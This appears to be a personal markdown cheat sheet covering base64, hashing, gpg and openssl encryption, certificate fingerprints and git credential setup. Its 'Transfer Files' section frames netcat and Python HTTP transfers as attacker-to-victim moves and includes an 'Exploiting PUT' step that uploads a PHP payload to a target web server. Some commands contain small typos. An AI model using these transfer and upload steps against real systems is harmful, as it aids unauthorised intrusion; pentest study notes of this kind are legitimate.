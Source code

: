 # Utilities

[TOC]



### CyberChef - [URL](https://github.com/gchq/CyberChef)



### Base64

```bash
#Base64 encoding:
echo -n "admin:password" | base64

#Base64 decoding:
echo "YWRtaW46cGFzc3dvcmQ=" | base64 -d
```



## Data Integrity - calculate Hashes 


```bash
# Linux Utilities
md5sum <data> 
sha1sum <data> 
sha256sum <data>

# OpenSSL
openssl sha256 <data>
openssl sha512 <data>
```



## Symmetric Encryption

### OpenPGP

```bash
# Encrypt a file (default symmetric cipher used is AES-128)
gpg -c --cipher-algo AES-256 --encrypt <data.txt> 
or
gpg --cipher-algo AES-256 --symmetric <data.txt> 

# Decrypt a file 
gpg -d <data.txt.gpg>
or
gpg --decrypt <data.txt.gpg>
```

### OpenSSL

```bash
# Encrypt a file (The method described uses a weak key derivation function. The ONLY security is introduced by a very strong password)
openssl aes-256-cbc -in <data.txt> -out <encrypted.enc>

# Encrypt a file - using a different encoding method of Base64 before storing the results in a file
openssl aes-256-cbc -a -in <data.txt> -out <encrypted.enc>

# Decrypt a file
openssl aes-256-cbc –a -d -in <encrypted.enc> -out <decrypted.txt>
```



## Asymmetric Encryption

### OpenSSL - Generate Certificate

```bash
# 1.Generate a private key (8912 creates the key 8912 bits long)
openssl genrsa -aes256 -out private.key 8912 

# 2.Generate a public key (use the private key)
openssl rsa -in private.key -pubout -out public.key 

# 3.Encrypt a file (plaintext.txt) using our public key
openssl rsautl -encrypt -pubin -inkey public.key -in <plaintext.txt> -out <encrypted.txt> 

# 4.Decrypt the file and get the original message using private key 
openssl rsautl -decrypt -inkey private.key -in <encrypted.txt> -out <plaintext.txt>
```

### OpenSSL - Verify Fingerprint
```bash
# Gather certificate
echo -n | openssl s_client -connect <website> | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' > ./<cert_name>

# Extract and display Certificate fingertprint
openssl x509 -noout -in <cert_name> -fingerprint -sha1
```



## Transfer Files

### Using Netcat 

```bash
# On victim 
nc -l -p <port> > <filename> 

# On attacker 
nc -w -3 <machine_ip> <port> <  <filename> 

# Exploiting PUT 
wc -m <payload.php> (get the size) 
nc -v <target> 80 

PUT /payload.php HTTP/1.0 
Content-type: text/html 
Content-size: <size>
```



### Using Python 

```bash
# On the attacker 
python3 -m http.server <port>

# On the victim (One file)
wget http://<machine_ip:<port>/<filename>

# On the victim (Multiple file)
wget -r http://<machine_ip:<port>
```

 

 ### Git


git init
git branch -m "main"
git add .
git remote add origin https://github.com/f3nces/ReminderNotes.git
git commit -m "first commit"
git push -u origin main



git add --all
git commit -m 'another commit'
git push





 Create Personal Access Token on GitHub

From your GitHub account, go to Settings => Developer Settings => Personal Access Token => Generate New Token (Give your password) => Fillup the form => click Generate token => Copy the generated Token

or Linux, you need to configure the local GIT client with a username and email address,

$ git config --global user.name "your_github_username"
$ git config --global user.email "your_github_email"
$ git config -l

Once GIT is configured, we can begin using it to access GitHub. Example:


Username: <type your username>
Password: <type your password or personal access token (GitHub)

Now cache the given record in your computer to remembers the token:

$ git config --global credential.helper cache

If needed, anytime you can delete the cache record by:

$ git config --global --unset credential.helper
$ git config --system --unset credential.helper

git config --global --unset user.name
git config --global --unset user.email


 